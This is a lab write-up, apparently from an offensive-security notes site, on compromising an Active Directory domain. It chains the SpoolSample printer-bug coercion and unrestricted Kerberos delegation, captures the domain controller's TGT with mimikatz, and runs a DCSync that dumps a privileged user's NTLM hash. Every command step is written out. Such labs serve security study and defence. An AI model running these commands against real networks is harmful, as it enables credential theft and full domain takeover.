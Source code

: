 # Domain Compromise via DC Print Server and Kerberos Delegation

This lab demonstrates an attack on Active Directory Domain Controller \(or any other host to be fair\) that involves the following steps and environmental conditions:

* Attacker has to compromise a system that has an unrestricted kerberos delegation enabled.
* Attacker finds a victim that runs a print server. In this lab this happened to be a Domain Controller.
* Attacker coerces the DC to attempt authenticating to the attacker controlled host which has unrestricted kerberos delegation enabled. 
  * This is done via RPC API  [`RpcRemoteFindFirstPrinterChangeNotificationEx`](https://msdn.microsoft.com/en-us/library/cc244813.aspx) that allows print clients to subscribe to notifications of changes on the print server.
  * Once the API is called, the DC attempts to authenticate to the compromised host by revealing its TGT to the attacker controlled compromised system.
* Attacker extracts `DC01's` TGT from the compromised system and impersonates the DC to carry a DCSync attack and dump domain member hashes.

This lab builds on [Domain Compromise via Unrestricted Kerberos Delegation](domain-compromise-via-unrestricted-kerberos-delegation.md)

## Execution

Our environment for this lab is:

* ws01 - attacker compromised host with kerberos delegation enabled \(attacker, server\)
* dc01 - domain controller running a print service \(victim, target\)

We can check if a spool service is running on a remote host like so:

```text
ls \\dc01\pipe\spoolss
```

![](../../.gitbook/assets/image%20%28250%29.png)

If the spoolss was not running, we would receive an error.

Another way to check if the spoolss is running on a remote machine is:

![](../../.gitbook/assets/image%20%28445%29.png)

Now, after compiling the amazing PoC [SpoolSample](https://github.com/leechristensen/SpoolSample) by [@tifkin\_](https://twitter.com/tifkin_), we execute it with two arguments `target` and `server` \(DC with spoolss running on it\):

```csharp
.\SpoolSample.exe dc01 ws01
```

![](../../.gitbook/assets/screenshot-from-2018-10-31-23-32-34.png)

We are shown a message that the target attemped authenticating to our compromised system, so let's check if we can retrieve DC01 TGT:

```csharp
mimikatz # sekurlsa::tickets
```

![](../../.gitbook/assets/screenshot-from-2018-10-31-23-33-49.png)

We indeed got a TGT for DC01$ computer!

With this, we can make our compromised system `ws01$` appear like a Domain Controller and extract an NTLM hash for the user `offense\spotless` which we know has high privileges in the domain:

```csharp
mimikatz # lsadump::dcsync /domain:offense.local /user:spotless
```

![](../../.gitbook/assets/screenshot-from-2018-10-31-23-43-32.png)

The above clearly shows the attack was successful and an NTLM hash for the user spotless got retrieved - get cracking or passing it now.

## Mitigation

For mitigations, see [Domain Compromise via Unrestricted Kerberos Delegation](domain-compromise-via-unrestricted-kerberos-delegation.md#mitigation) mitigations section.

## References

{% embed url="https://github.com/leechristensen/SpoolSample" caption="" %}

{% embed url="https://adsecurity.org/?p=4056" caption="" %}

{% embed url="https://adsecurity.org/?p=2053" caption="" %}

